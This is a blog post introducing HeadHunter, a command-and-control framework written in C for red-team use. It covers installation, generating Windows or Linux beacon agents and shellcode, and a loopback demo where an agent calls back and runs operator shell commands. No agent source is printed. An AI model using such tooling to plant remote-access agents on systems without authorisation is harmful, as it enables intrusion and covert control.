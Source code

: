```yaml
---
layout: post
title: Diving into HeadHunter
subtitle: a Command and Control Framework Written in C
thumbnail-img: https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/38a0993b-569d-4a87-9742-675d2759407f
share-img: https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/38a0993b-569d-4a87-9742-675d2759407f
tags: [MalDev, Windows, Linux, Pentesting]
---
```


<p align="center">
  <img src="https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/38a0993b-569d-4a87-9742-675d2759407f">
</p>


### What is a Command and Control Framework?
A command and control (C2) framework is a collection of tools that assist in an offensive security assessment, helping a Red Team or Penetration-testing team stay organized and concentrate all their access to the clients’ network. Usually used to simulate the tactics of an adversary which holds a foothold, or initial access on the clients’ network.

### A Bit of Background On the Project
HeadHunter is a project very dear to me. It started as a simple reverse shell multi-handler and reverse shell payload generator written in C while I was in high school. Through tons of work and passion, it quickly evolved as my own knowledge evolved, and in my freshmen year of college it was quickly transformed into an encrypted command and control framework. 

Although I’ve worked on this project for over a year, it’s far from finished. I’m constantly planning features for the project, including team play, stronger cryptographic algorithms for communications, and expansion of the C2 agent feature set.

### Project Description

HeadHunter is an adversary emulation framework and command & control (C2) server with asynchronous, beacon based encrypted communications.
HeadHunter also includes compatible custom agents and a server bundled agent generator with cross compilation capabilities.
HeadHunter has functionality to generate binary and shellcode agents for Windows 32- and 64-bit, and GNU/Linux based operating systems.
Once deployed, a Hunter agent will call back to the HeadHunter command and control infrastructure, requesting agent tasking from the operator until provided.
If no commands are provided, the agent will sleep and continuously beacon until the agent is provided with instructions.


### Installation 
Installation on HeadHunter should be relatively simple, as I’ve specifically developed HeadHunter to not utilize many dependencies, and most of the dependencies that I do list are optional or can be substituted, and simply expand the functionality of the project. Keep in mind that installing the various dependencies only takes a few moments and are highly recommended.

***Note that HeadHunter was specifically developed with the Kali Linux platform in mind, so using a Kali install will result in the least troublesome install process. ***
 
Before the installation process, install the various dependencies for the project, with this command:
```
sudo apt install mingw-w64 gcc make objdump
```

Then for the actual installation process:

1. Clone the repository
``` 
git clone https://github.com/Lionskey/HeadHunter.git
```

2. Change directory to source tree
``` 
cd HeadHunter/
```

3. Install HeadHunter binary and payload source
```
make && sudo make install
```

<br />

After the HeadHunter server binary is moved to path, and the agent source is moved into the HeadHunter program folder, you should be able to see the HeadHunter help options:

```
shellph1sh@kali:~/HeadHunter$ headhunter --help

Commands
--------------------------------------------------------
-h, --help                                             displays this help menu
-l, --listen <address> <port>                          starts a listening HeadHunter server on a specified address and port
-g, --generate <Payload Generation Options>            generates a Hunter agent to initiate a callback


Payload Generation Options
--------------------------------------------------------
-p, --port <port>                                      Hunter agent callback port
-o, --output <outputfile>                              file to output agent to
-w, --platform <platform>                              Hunter agent target platform (win64, win32, linux)
-f, --format <format>                                  Hunter agent output format (bin, shellcode)
-l, --localhost <address>                              Hunter agent callback address
```

<br />

Let’s see HeadHunter in action! First start up our HeadHunter listener on the loopback address: 127.0.0.1 and on port 443.

We can use the command:
```
headhunter -l 127.0.0.1 443
```


![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/5693faff-8a84-4611-8e78-36454840338e)

<br />

Now let’s generate an agent with the default encryption key from inside of the HeadHunter server console using the command:
```
headhunter -g -l 127.0.0.1 -p 443 -w linux -f bin -o Hunter
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/10fcba59-c191-4daf-b45f-f4fb639932b4)

<br />

Note that the HeadHunter operator can execute any shell command through the HeadHunter server console, providing flexibility for the operator.

<br />

Ok, now execute the compiled agent in another window, and if all goes well, we should receive a callback notifier in our C2 server console output.

```
shellph1sh@kali:~/HeadHunter$ ./Hunter&     
[1] 11284
                                                                                
shellph1sh@kali:~/HeadHunter$ 
```

<br />

And yes! HeadHunter notes that we’ve received a beacon connection from our compiled agent!

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/0cd4463b-9e10-49c7-b710-2cdc99fbbbee)


<br />

We can now enter the “show sessions” command, or “show” for short, to see active agent sessions, as well as how long it has been since they’ve checked in to the HeadHunter server.

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/de5460bb-36b5-43ed-a384-5659bb0251d5)

<br />

Utilize the “use” command to interact with an agent, passing the ID from the “show” command as a parameter. Note that we can now queue the agent with tasks to execute and receive output back. For example, we can execute system commands with the “shell” command, using the command we want to execute as a parameter:

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/561a5cf8-b731-4d8d-aadf-b69240aebe64)

<br />

That's all for the installation and simple demonstration.

Also note: HeadHunter can task the agent to change the default sleep timer setting depending on the objectives of the operation, with the ability to choose between a loud interactive session or a “low and slow” OPSEC safe operation. And the operator of the HeadHunter C2 server can background an agent session and interact with any session connected to the server infrastructure at the discretion of the operator.

### Conclusion
While I’m extremely happy with the state of the HeadHunter project, it lacks agent features and commands. Hopefully soon I’ll be able to integrate a multitude of Hunter agent commands and functionality, and possibly a stager for a more lightweight payload delivery process.

Thank you so much for following along, and contributions are greatly appreciated!


